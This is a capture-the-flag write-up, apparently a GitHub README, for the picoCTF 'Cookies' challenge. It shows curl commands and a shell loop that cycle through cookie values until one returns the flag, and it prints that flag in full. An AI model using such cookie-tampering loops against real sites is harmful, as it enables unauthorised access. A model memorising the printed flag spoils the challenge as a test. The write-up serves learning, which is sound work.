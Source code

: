 I was given a task to find the "best" cookie on a challenge site.

The first thing I did was use `curl` to check for any cookies set by the server.

By sending a `GET` request to the URL, I found that the server set a cookie called "name" with the value `-1`.

From there, I tried modifying the cookie and iterated through a range of values, hoping to find one that returned something different from the default response.

When I set the cookie value to `0` and made the request, the response said that the cookie wasn’t special, so I continued testing with a loop.

After trying values from 1 to 20, I found that when the value was set to `18`, the response changed significantly.

It mentioned a flag and provided a clear hint, so I knew that was the one I was looking for; the flag.

It was a fun exercise of interacting with the server via cookies and figuring out which one was "special".

Code:
```
root@LAPTOP-GEM5SRL1:~# curl -s http://mercury.picoctf.net:54219/ -I | grep Cookie
Set-Cookie: name=-1; Path=/
root@LAPTOP-GEM5SRL1:~# curl -s http://mercury.picoctf.net:54219/ -H "Cookie: name=0;" -L | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
root@LAPTOP-GEM5SRL1:~# for i in {1..20}; do
> for>     contents=$(curl -s http://mercury.picoctf.net:27177/ -H "Cookie: name=$i; Path=/" -L)
for>     if ! echo "$contents" | grep -q "Not very special"; then
for then>         echo "Cookie #$i is special"
for then>         echo $contents | grep "pico"
for then>         break
for then>     fi
for> done
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
-bash: syntax error near unexpected token `>'
root@LAPTOP-GEM5SRL1:~# for i in {1..20}; do
> contents=$(curl -s http://mercury.picoctf.net:54219/ -H "Cookie: name=$i; Path=/" -L)
> if ! echo "$contents" | grep -q "Not very special"; then
> echo "Cookie #$i is special"
> echo $contents | grep "pico"
> break
> fi
> done
Cookie #18 is special
<!DOCTYPE html> <html lang="en"> <head> <title>Cookies</title> <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet"> <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet"> <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script> <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script> </head> <body> <div class="container"> <div class="header"> <nav> <ul class="nav nav-pills pull-right"> <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a> </li> </ul> </nav> <h3 class="text-muted">Cookies</h3> </div> <div class="jumbotron"> <p class="lead"></p> <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p> </div> <footer class="footer"> <p>&copy; PicoCTF</p> </footer> </div> </body> </html>
root@LAPTOP-GEM5SRL1:~#
```
![Screenshot (1273)](https://github.com/user-attachments/assets/db472d0f-6447-479f-91da-8d4a06092fe1)


![Screenshot (1274)](https://github.com/user-attachments/assets/86a1f6c1-fe10-472b-beb3-c1ce29a2f5de)


**picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}**

